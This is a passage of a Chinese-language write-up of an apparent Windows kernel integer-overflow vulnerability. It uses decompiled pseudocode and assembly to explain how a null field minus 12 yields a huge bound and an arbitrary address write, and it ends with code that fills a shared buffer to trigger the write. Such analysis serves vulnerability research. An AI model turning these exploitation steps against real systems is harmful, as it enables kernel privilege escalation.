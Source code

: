 ```
      `{`
      v17 = (_DWORD *)(v6 + 12);                // height + 0xc = pvScan0
      *v17 = *((_DWORD *)a2 + 4);               // [edx+0x10] = workBitmap pvScan0
      v14 = (char *)a2 + 20;
      v15 = v17 + 1;
      goto LABEL_32;
      `}`
    return -1073741811;
  `}`
  return -1073741811;
`}`
```

问题发生在 v4 &lt; *((_DWORD **)this + 8) – 12这行代码，默认this＋8里存放的值是null，在x64下，需要在这个位置赋值，当这里的值为null，则**((_DWORD *)this + 8) – 12的时候会等于0xfffffff4，这个值是一个无符号型，所以是个极大值，那么v4是可控的，可以赋值一个几乎包含整个内存空间的值，这样就可以在后续a3=＝32这个if语句中完成对任意地址的写。

```
.text:00048251 ; 23:   if ( v4 &lt; *((_DWORD *)this + 8) - 12 )
.text:00048251                 mov     eax, [ebx+20h]
.text:00048254                 sub     eax, 0Ch//整型溢出
.text:00048257                 cmp     esi, eax
.text:00048259                 jnb     loc_9E090
```

我们来看一下任意地址写的过程，在此之前，我们要了解a2的值是szbuf，这个值我们是可以在代码中定义的，this值是szbuf的拷贝，这个操作会在setbuffproperty函数中调用updatepropertyvalue函数前的memcpy(&amp;v20, a4, a5);中拷贝，同样这个值也是可控的。

```
v4 = *((_DWORD *)a2 + 2); //v4的值可控，就是szbuf里面的值
……
v5 = *((_DWORD *)a2 + 3);   //v5的值同样可控，我们要令这个值为0x45
v6 = v4 + *((_DWORD *)this + 7);    //this+7的值可控，和v4值相加之后是v6，也可控
……
if ( *(_DWORD *)v6 != v5 )                  //这行十分关键，v6可控，但v6中存放的值必须和v5相等，也就是说              
                                                               //v6的值必须为0x45
      return -1073741811;
 ……
//只有v5＝0x45才能到这个if语句
 if ( a3 == 32 )                             // a3的值是size，可以在代码中定义，我们令a3为0x20
      `{`
      v17 = (_DWORD *)(v6 + 12);                // v6值可控，v17的值也可控
      *v17 = *((_DWORD *)a2 + 4);               // 任意地址写！这里可以将可控值写到可控地址
      v14 = (char *)a2 + 20;
      v15 = v17 + 1;
      goto LABEL_32;
      `}`
```

根据上述分析的情况，我们就可以在代码中实现对szbuf的控制

```
*(DWORD*)pMappedAddress = nCmdSetResourceBufferProperty;
    *(HANDLE*)((PUCHAR)pMappedAddress + 4) = hResource;
    *(DWORD*)((PUCHAR)pMappedAddress + 8) = 1;//这里将property置为1
    //*(DWORD*)((PUCHAR)pMappedAddress + 0xc) = sizeof(szBuff);
    *(DWORD*)((PUCHAR)pMappedAddress + 0xc) = 0x20;//这里是关键，令size为0x20
    CopyMemory((PUCHAR)pMappedAddress + 0x10, szBuff, sizeof(szBuff));
```
